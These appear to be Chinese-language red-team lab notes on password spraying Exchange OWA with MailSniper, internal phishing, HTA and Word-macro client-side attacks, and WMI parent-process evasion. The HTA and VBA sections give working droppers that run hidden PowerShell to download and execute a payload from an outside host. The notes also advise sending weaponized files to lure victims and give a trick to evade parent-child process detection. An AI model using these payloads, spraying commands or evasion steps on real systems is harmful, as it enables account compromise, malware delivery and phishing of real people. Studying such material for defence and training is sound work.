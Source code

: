 # 密码喷洒（Password Spraying）

3个工具:

## [namemash.py](https://gist.github.com/superkojiman/11076951)
一个根据完整用户名名单得到用户名各种组合的python工具
```
/opt/namemash.py names.txt >> possible-usernames.txt
```


## [MailSniper](https://github.com/dafthack/MailSniper)

引入
```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

枚举NetBIOS name
```
Invoke-DomainHarvestOWA -ExchHostname 10.10.15.100
```

验证哪些名字是域里的有效用户名
```
Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt
```

对上面的有效用户名进行密码喷洒,密码：```Summer2021```
```
Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021
```

注意：在现实渗透中，过多的喷洒尝试可能会暴露自己，以及导致用户被锁


使用MailSniper 下载全局地址列表
```
PS C:\> Get-GlobalAddressList -ExchHostname 10.10.15.100 -UserName CYBER\iyates -Password Summer2021 -OutFile gal.txt
[*] First trying to log directly into OWA to enumerate the Global Address List using FindPeople...
[*] This method requires PowerShell Version 3.0
[*] Using https://10.10.15.100/owa/auth.owa
[*] Logging into OWA...
[*] OWA Login appears to be successful.
[*] Retrieving OWA Canary...
[*] Successfully retrieved the X-OWA-CANARY cookie: ahhlRb0kZUKEg8YEo5ZZtQDYwqU8EdkIl7OJ7_ugwGfk56YCYe0ilgE2GKVxCNJTMpqknR3QJ_M.
[*] Retrieving AddressListId from GetPeopleFilters URL.
[*] Global Address List Id of b4477ba8-52b0-48bf-915e-d179db98788b was found.
[*] Now utilizing FindPeople to retrieve Global Address List
[*] Now cleaning up the list...
bfarmer@cyberbotic.io
iyates@cyberbotic.io
jadams@cyberbotic.io
jking@cyberbotic.io
nglover@cyberbotic.io
[*] A total of 5 email addresses were retrieved
[*] Email addresses have been written to gal.txt
```


## [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)


# 内部网络钓鱼

> 访问一个或多个内部邮箱开辟了一些可能性。我们可以搜索可能包含文档、用户名和密码等敏感信息的电子邮件；甚至代表受感染用户向员工发送电子邮件。我们可以发送我们自己制作的文件和/或链接，或者甚至下载已经在收件箱中的文档，将其后门（例如使用宏），然后将其发回给某人


# HTML Application (HTA)

hta客户端攻击

原理：在html中嵌入VBScript或者JScript代码，用户点击页面时触发代码执行

下面这段代码双击以后在用户电脑中打开一个计算器
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```


只要把上面代码修改一行,就可以唤起powershell执行一个rev shell
```
shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"""
```

执行64位powershell，需指明路径
```
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

注意上面```sysnative```是```System32```的别名


下面代码判断目标机器的架构，从而决定启用哪个powershell(x86还是x64)
```
Function Pwn()
  Set shell = CreateObject("wscript.Shell")

  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
  Else
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/b'))"""
  End If

End Function
```

# Visual Basic for Applications (VBA) Macro's

宏攻击

vba和vbscript差别不大，上面计算器的脚本稍微改一下就可以作为vba运行
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

函数名为AutoOpen时是自动运行的意思

同样的，也可以在vba中调用powershell，也需要注意架构问题，是32位还是64位。如果是64位，像上面一样指明路径。

需要注意，文件扩展名必须是```.doc```。

因为```.docx```文件无法保存宏代码。

## HTA 网络钓鱼

cobaltstrike

Attacks > Web drive-by > Host File

创建一个hta链接，发送给目标用户，诱使用户点击。


## Word Doc 网络钓鱼

把rev shell的vba放进doc文件，发送给用户，诱使用户打开。


# Parent-Child Relationships

父子进程

一个父进程可以有很多子进程，但是一个子进程只能有一个父进程。

观察进程关系，可以从防守角度察觉到攻击。

一个winword.exe父进程下如果运行了powershell.exe子进程，那将是非常可疑的，很可能是执行了可疑程序。

从进攻角度，打破这种关系可以使用 WMI Win32_Process 类来创建进程
```
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```

在这种情况下，PowerShell 将是WmiPrvSE.exe而不是 MS Word 的子进程。

# Building Alerts in Kibana

在Kibana中构建警报

